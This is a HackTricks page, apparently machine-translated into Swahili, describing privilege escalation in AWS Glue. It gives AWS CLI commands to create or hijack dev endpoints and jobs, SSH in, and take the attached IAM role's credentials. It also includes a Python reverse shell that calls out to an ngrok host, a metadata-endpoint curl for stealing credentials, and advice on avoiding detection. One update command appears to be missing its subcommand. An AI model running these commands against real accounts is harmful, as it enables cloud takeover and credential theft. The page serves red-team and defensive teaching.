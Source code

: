 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hizi wanaweza **kuanzisha mwisho mpya wa maendeleo ya AWS Glue**, **wakitenga jukumu la huduma lililopo linaloweza kuchukuliwa na Glue** na ruhusa maalum kwa ajili ya mwisho huu.

Baada ya kuanzishwa, **mshambuliaji anaweza SSH kwenye mfano wa mwisho**, na kuiba akreditif za IAM za jukumu lililotengwa:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Kwa madhumuni ya kujificha, inapendekezwa kutumia akreditivu za IAM kutoka ndani ya mashine ya virtual ya Glue.

**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya glue lililotajwa.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hii wanaweza **kubadilisha funguo za SSH za** kiunganishi cha maendeleo cha Glue kilichopo, **kuzuia ufikiaji wa SSH kwake**. Hii inamruhusu mshambuliaji kutekeleza amri kwa mamlaka ya jukumu lililounganishwa na kiunganishi:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue inayotumika.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Watumiaji wenye **`iam:PassRole`** pamoja na **`glue:CreateJob` au `glue:UpdateJob`**, na **`glue:StartJobRun` au `glue:CreateTrigger`** wanaweza **kuunda au kuboresha kazi ya AWS Glue**, wakitenga akaunti yoyote ya **Glue service**, na kuanzisha utekelezaji wa kazi hiyo. Uwezo wa kazi hiyo unajumuisha kukimbia msimbo wa Python wa kawaida, ambao unaweza kutumiwa kuanzisha shell ya kurudi. Shell hii ya kurudi inaweza kisha kutumika kuhamasisha **IAM credential** za jukumu lililounganishwa na kazi ya Glue, ikisababisha uwezekano wa ufikiaji usioidhinishwa au vitendo kulingana na ruhusa za jukumu hilo:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue iliyotajwa.

### `glue:UpdateJob`

Kwa ruhusa ya sasisho tu, mshambuliaji anaweza kuiba IAM Credentials za jukumu lililounganishwa tayari.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue iliyounganishwa.

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
